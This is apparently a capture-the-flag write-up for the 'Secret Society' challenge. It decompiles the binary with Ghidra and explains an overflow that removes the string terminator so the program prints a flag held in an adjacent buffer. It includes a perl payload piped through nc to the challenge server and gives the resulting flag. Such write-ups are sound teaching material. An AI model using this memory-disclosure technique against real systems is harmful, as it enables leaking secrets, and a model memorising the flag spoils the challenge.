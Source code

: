 
# Secret Society

## Description

Wanna enter the Secret Society? Well you have to find the secret code first!

```
nc chall.csivit.com 30041
```

## Analysis

Decompile with Ghidra and look at `main()`:

```c
undefined8 main(void)
{
  size_t sVar1;
  undefined8 local_d8 [2];
  undefined4 uStack200;
  undefined auStack196 [108];
  char local_58 [56];
  FILE *local_20;
  char *local_18;
  __gid_t local_c;
  
  setvbuf(stdout,(char *)0x0,2,0);
  local_c = getegid();
  setresgid(local_c,local_c,local_c);
  memset(local_58,0,0x32);
  memset(local_d8,0,0x80);
  puts("What is the secret phrase?");
  fgets((char *)local_d8,0x80,stdin);
  local_18 = strchr((char *)local_d8,10);
  if (local_18 != (char *)0x0) {
    *local_18 = '\0';
  }
  sVar1 = strlen((char *)local_d8);
  *(undefined8 *)((long)local_d8 + sVar1) = 0x657261206577202c;
  *(undefined8 *)((long)local_d8 + sVar1 + 8) = 0x6877797265766520;
  *(undefined4 *)((long)&uStack200 + sVar1) = 0x2e657265;
  auStack196[sVar1] = 0;
  local_20 = fopen("flag.txt","r");
  if (local_20 == (FILE *)0x0) {
    printf("You are a double agent, it\'s game over for you.");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  fgets(local_58,0x32,local_20);
  printf("Shhh... don\'t tell anyone else about ");
  puts((char *)local_d8);
  return 0;
}
```

This prompts us for a secret phrase, using a buffer that is only 16 bytes, but it's succeptible to a buffer overflow. What happens when we run it? Create a fake `flag.txt` and test locally.

```
kali@kali:~/Downloads$ echo flag > flag.txt
kali@kali:~/Downloads$ ./secret-society
What is the secret phrase?
hello
Shhh... don't tell anyone else about hello, we are everywhere.
kali@kali:~/Downloads$ nc chall.csivit.com 30041
What is the secret phrase?
hello
Shhh... don't tell anyone else about hello, we are everywhere.
kali@kali:~/Downloads$ nc chall.csivit.com 30041
What is the secret phrase?
fooooooo
Shhh... don't tell anyone else about fooooooo, we are everywhere.
```

It's just printing out our input from `local_d8` even though the flag is sitting there in `local_58` after the `fopen()` and `fgets()` calls. We can overflow the input buffer though to avoid having a null terminator until the beginning of `local_58`. Then the flag will be read into `local_58` and the `puts()` call on `local_d8` should print our input, plus the flag at the very end.

## Solution

We have to fill 3 buffers:

* `local_d8` (16 bytes, our input buffer)
* `uStack200` (4 bytes)
* `auStack196` (108 bytes)

That will leave the null terminator at the beginning of `local_58`. Test locally:

```
kali@kali:~/Downloads$ perl -e 'print "A"x16 . "B"x4 . "C"x108' | ./secret-society
What is the secret phrase?
Shhh... don't tell anyone else about AAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC,flag
```

That worked, so run it against the remote server to get the flag:

```
kali@kali:~/Downloads$ perl -e 'print "A"x16 . "B"x4 . "C"x108' | nc chall.csivit.com 30041
What is the secret phrase?
Shhh... don't tell anyone else about AAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC,csivit{Bu!!er_e3pl01ts_ar5_5asy}
```

The flag is:

```
csivit{Bu!!er_e3pl01ts_ar5_5asy}
```


